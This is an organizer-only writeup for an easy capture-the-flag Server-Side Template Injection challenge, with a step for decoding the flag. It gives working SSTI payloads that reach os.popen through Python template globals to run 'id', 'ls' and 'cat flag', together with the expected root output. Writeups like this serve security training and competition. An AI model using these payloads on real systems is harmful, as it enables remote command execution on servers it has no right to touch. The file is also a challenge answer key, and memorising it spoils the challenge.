 >>writeup/solution.md — Organizer-only writeup

**Challenge:** SSTI1 — Server-Side Template Injection  

**Category:** Web — SSTI / Template Injection 

**Author:** NIGHTFURY0X01 (Arash)

**Level:** Easy
 
---

### This writeup describes the intended attack flow and the decode steps players will need to perform. Keep this file private.

## Attack flow (what the player will do inside the app)

+ 1.In the search box the player first submits:
```{{7*7}}```
+ This will render and show 49.

+ 2.Next they try to gather system information using SSTI:

```{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}```

+ This will show something like:
```uid=0(root) gid=0(root) groups=0(root)```

+ 3.Then they list files in the current directory:

```{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}```

+ This will show entries including flag (and other files).

+ 4.Finally they read the flag file with:

```
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```

+ The application will return the encoded blob (exact output below):

```
%31%30%30%31%30%31%30%31%30%31%30%31%31%30%30%30%31%31%30%31%30%31%31%30%31%30%31%31%31%30%31%31%30%31%31%30%30%31%31%30%31%30%31%61%31%31%30%30%31%31%30%30%30%31%30%30%30%31%30%30%31%31%31%30%31%31%31%31%31%30%30%30%31%31%30%31%31%31%31%31%31%31%30%31%30%30%30%31%31%31%31%31%30%30%31%30%31%31%30%30%31%31%31%30%30%31%31%31%31%30%30%31%30%31%31%30%31%31%31%31%31%31%31%30%31%31%30%66%31%30%31%61%31%30%30%31%31%31%30%30%31%30%30%30%31%30%30%31%30%30%30%30%30%31%30%31%30%30%30%31%30%30%31%30%30%30%31%31%30%30%30%30%30%31%31%31%31%31%31%31%30%31%30%31%30%31%30%30%30%31%30%31%30%31%31%31%31%31%30%31%31%31%30%31%30%31%30%31%31%31%30%30%31%30%30%64%31%30%31%31%31%30%31%31%30%31%31%30%31%31%30%31%30%30%31%31%31%31%30%31%31%30%31%30%30%65%31%30%31%31%30%31%31%30%31%30%31%31%30%30%30%30%30%30%30%31%30%31%30%31%31%31%30%30%30%30%62%31%30%31%30%31%30%31%30%31%30%30%31%31%30%30%31%64%31%31%64```
---

### Decode pipeline (organizer helper)

To retrieve the final CTF_flag{...}, apply the following transforms in order to the blob returned by cat flag:

+ 1.URL-decode the percent-encoded string (convert %31 → 1, %30 → 0, %61 → a, etc.).

+ 2.Binary : interpret the result as a sequence of ASCII 0/1 characters (group into 8-bit chunks) and convert each byte to its numeric value.

+ 3.Hex ASCII : interpret the bytes from step 2 as ASCII hex characters (e.g. 43 54 46 5f ...) and convert the hex to raw bytes.

+ 4.Base64-decode the resulting bytes to obtain the final CTF_flag{...} text.

![Step 1](1.png)
